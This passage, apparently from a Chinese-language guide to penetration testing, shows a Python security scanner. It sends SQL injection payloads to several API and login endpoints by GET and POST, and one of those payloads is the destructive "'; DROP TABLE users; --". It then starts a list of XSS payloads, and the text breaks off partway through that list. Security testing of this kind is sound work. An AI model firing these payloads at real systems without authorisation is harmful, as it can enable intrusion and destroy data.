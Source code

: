 ### 渗透测试

#### 自动化安全扫描
```python
# security_scanner.py
import requests
import subprocess
import json
from urllib.parse import urljoin

class SecurityScanner:
    def __init__(self, target_url):
        self.target_url = target_url
        self.vulnerabilities = []
    
    def scan_sql_injection(self):
        """SQL 注入扫描"""
        payloads = [
            "' OR '1'='1",
            "'; DROP TABLE users; --",
            "' UNION SELECT * FROM users --",
            "1' AND 1=1 --",
            "1' AND 1=2 --"
        ]
        
        test_endpoints = [
            '/api/users',
            '/api/search',
            '/login',
            '/api/data'
        ]
        
        for endpoint in test_endpoints:
            for payload in payloads:
                url = urljoin(self.target_url, endpoint)
                
                # GET 参数测试
                response = requests.get(url, params={'q': payload})
                if self.detect_sql_error(response.text):
                    self.vulnerabilities.append({
                        'type': 'SQL Injection',
                        'severity': 'High',
                        'endpoint': endpoint,
                        'payload': payload,
                        'method': 'GET'
                    })
                
                # POST 数据测试
                response = requests.post(url, data={'input': payload})
                if self.detect_sql_error(response.text):
                    self.vulnerabilities.append({
                        'type': 'SQL Injection',
                        'severity': 'High',
                        'endpoint': endpoint,
                        'payload': payload,
                        'method': 'POST'
                    })
    
    def scan_xss(self):
        """XSS 扫描"""
        payloads = [
            "<script>alert('XSS')</script>",
            "<img src=x onerror=alert('XSS')>",
```